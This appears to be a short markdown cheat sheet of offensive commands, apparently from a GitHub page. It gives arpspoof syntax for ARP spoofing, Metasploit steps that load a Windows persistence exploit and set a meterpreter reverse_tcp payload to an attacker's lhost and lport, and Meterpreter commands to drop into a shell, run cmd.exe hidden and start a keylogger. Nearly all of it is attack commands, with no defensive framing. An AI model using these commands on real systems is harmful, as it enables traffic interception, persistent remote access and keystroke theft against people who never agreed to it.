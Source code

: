 ```
arpspoof -i <interface> -t <target> -r <host>
```
- -i : interface
- -t : target
- -r : host 

### Metasploit

```
search <module>
```

```
use <module>
```

```
show options
```

```
use exploit/windows/local/s4u_persistence
```

```
set payload windows/meterpreter/reverse_tcp
```

```
set lhost <ip>
```

```
set lport <port>
```

```
exploit
```

### Meterpreter

Go back to Metasploit
```
background
```

Enter Shell
```
shell
```

Execute commands
```
execute -f cmd.exe -i -H
```

Start keylogger
```
keyscan_start
```
